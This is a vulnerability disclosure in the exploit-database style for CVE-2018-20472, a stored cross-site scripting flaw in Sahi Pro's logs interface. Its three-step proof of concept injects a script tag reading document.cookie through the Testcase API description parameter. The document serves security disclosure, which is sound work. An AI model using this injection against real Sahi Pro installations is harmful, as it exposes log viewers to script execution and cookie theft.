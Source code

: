 XSS
---

    # Exploit Title: Sahi pro ( <= 8.x ) Stored XSS
    # Date: 17-06-2019
    # Exploit Author: Goutham Madhwaraj ( https://barriersec.com )
    # Vendor Homepage: https://sahipro.com/
    # Software Link: https://sahipro.com/downloads-archive/
    # Version: 7.x , <= 8.x
    # Tested on: Windows 10
    # CVE : CVE-2018-20472
    # POC-URL : https://barriersec.com/2019/06/cve-2018-20472-sahi-pro/

    DESCRIPTION :

    An issue was discovered in Tyto Sahi Pro through 7.x.x and 8.0.0. The logs web interface is vulnerable to stored XSS. Description parameter of Testcase API can be used to exploit the stored XSS.


    POC :

    step 1 :

     create a sahi test automation script with the following content and save the file with ".sah" extension ( example : poc.sah) :

                var $tc1 = _testcase(“TC-1″,”<script>alert(document.cookie)</script>”).start();

               _log(“testing stored XSS injection”);

                $tc1.end();

    Step 2 :

    Execute the created script ( poc.sah ) using sahi GUI controller .

    Step 3 : navigate to the web logs console ( http://<ip>:<port>/logs ) using the browser for the executed script. XSS is triggered .
